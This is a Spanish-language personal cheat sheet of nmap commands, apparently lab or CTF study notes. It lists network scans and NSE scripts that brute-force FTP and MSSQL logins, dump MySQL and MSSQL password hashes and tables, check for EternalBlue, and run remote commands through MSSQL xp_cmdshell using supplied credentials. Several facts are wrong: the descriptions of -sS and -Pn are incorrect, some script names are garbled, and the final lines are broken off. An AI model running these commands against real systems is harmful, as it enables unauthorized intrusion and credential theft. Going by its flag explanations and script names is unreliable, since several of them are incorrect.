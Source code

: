 # NMAP

Propietario: Adrian Gisbert Cabello

Para hacer un escaneo de redes IP: **`*nmap -sn 192.168.X.X/24*`**

También podemos usar netdiscovery:

Primer escaneo cuando obtenemos una o más redes IP: `sudo nmap -sS --min-rate 5000 -p- --open 192.168.X.X,Y,Z -vvv -oN tcp_scan.txt`

Se pueden añadir más de una IP si estan en el mismo rango con la ‘***,***’ seguido de las terminaciones de las otras IP. El comando ***-sS*** es para enumerar servicios de los puertos que están corriendo, el ***min rate*** lo dejamos a 5000 para un escaneo más rápido (no aplicable en entornos reales y en escaneos que queramos que se hagan de una manera más silenciosa), el comando ***open*** para que nos muestre solo los puertos que estén abiertos y el parámetro ***oN*** es para guardar los resultados en un formato NMAP a un archivo .txt, triple verbose para ver el escaneo en tiempo real.

Segundo escaneo una vez ya sabemos los puertos abiertos:	`sudo nmap -p21,22,80,445 -sSCV --open 192.168.X.X,Y,Z -Pn -vvv -oN full_scan.txt`

Se pueden añadir más de un puerto separándolos con **la *‘**,***’ **. El comando ***-sCV*** nos permite enumerar versiones que están corriendo en los puertos, ***-Pn*** para que no haga resolución DNS y así ser más rápido. Triple verbose para ver el escaneo en tiempo real.

Scripts de NMAP para el puerto 445 (SMB):

- Ver los protocolos:	`nmap -p445 --script smb-protocols 192.168.X.X`
- Ver posibles credenciales: `nmap -p445 --script smb-security-mode 192.168.X.X`
- Ver directorios: `nmap -p445 --script smb-enum-shares 192.168.X.X`
- Ver usuarios: `nmap -p445 --script smb-enum-users 192.168.X.X`
- Ver sesiones: `nmap -p445 --script smb-enum-sessions 192.168.X.X`
- Saber si es vulnerable a Eternalblue: `nmap -sV -p 445 --script=smb-vuln-ms17-010 192.168.X.X`
- `nmap -p445 --script smb-enum-shares --script-args smbusername=admninistrator,smbpassword=smbserver_771 192.168.X.X`

Scripts de NMAP para el puerto 21 (FTP):

- Para entrar con fuerza bruta: `nmap 192.168.X.X --script ftp-brute --script-args userdb=/usr/share/metasploit-framework/data/wordlists/unix_users.txt -p 21`
- Listar directorios mediante conexión anónima: `nmap 192.168.X.X -p 21 --script ftp-anon`

Scripts de NMAP para el puerto 80 (HTTP):

`nmap 192.168.X.X -sV -p 80 --script http-enum`

`nmap 192.168.X.X -sV -p 80 --script http-headers`

`nmap 192.168.X.X -sV -p 80 --script http-methods --script-args http-methods.url-path#/webdav/`

Scripts de NMAP para el puerto 3306 (MySQL):

- Para saber si podemos entrar sin contraseña: `nmap 192.168.X.X -sV -p 3306 --script=mysql-empty-password`
- Para ver información: `nmap 192.168.X.X -sV -p 3306 --script=mysql-empty-info`
- Para: `nmap 192.168.X.X -sV -p 3306 --script=mysql-users --script-args=¨mysqluser='root',mysqlpass=''¨`
- Para ver bases de datos: `nmap 192.168.X.X -sV -p 3306 --script=mysql-databases --script-args=¨mysqluser='root',mysqlpass=''¨`
- Para ver directorios: `nmap 192.168.X.X -sV -p 3306 --script=mysql-variables --script-args=¨mysqluser='root',mysqlpass=''¨`
- Para ver un archivo: `nmap 192.168.X.X -sV -p 3306 --script=mysql-audit --script-args=¨mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'¨`
- Para dumpear hashes: `nmap 192.168.X.X -sV -p 3306 --script=mysql-dump-hashes --script-args=¨username='root',password=''¨`
- Para windows:
    
    → Info: `nmap 192.168.X.X -p 1433 --script ms-sql-info`
    
    → Info: `nmap 192.168.X.X -p 1433 --script ms-sql-ntlm-info --script-args msssql.instance-port=1433`
    
    → Fuerza bruta: `nmap 192.168.X.X -p 1433 --script ms-sql-brute --script-args userdb=/users.txt,passdb=/pass.txt`
    
    → Saber si podemos entrar sin contraseña: `nmap 192.168.X.X -p 1433 --script ms-sql-empty-password`
    
    → Dumpear toda la base de datos con credenciales: `nmap 192.168.X.X -p 1433 --script ms-sql-empty-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query=¨SELECT * FROM master..syslogins¨ -oN output.txt`
    
    → Dumpear hashes con unas credenciales: `nmap 192.168.X.X -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria`
    
    → Ejecución remota de comandos con credenciales: `nmap 192.168.X.X -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd=¨COMANDO¨`
    
    → Leer un archivo: `nmap 192.168.X.X -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd=¨type c:**\**flag.txt¨`
    

El comando -PA es parea hacer el escaneo de puertos más silencioso sin enviar tantos paquetes a la red

El comando -sU es para escanear puertos UDP

El comando -sA

El comando -f specificallu designed for firewall evasion by splitting large packets into smaller fragments (comon in windows)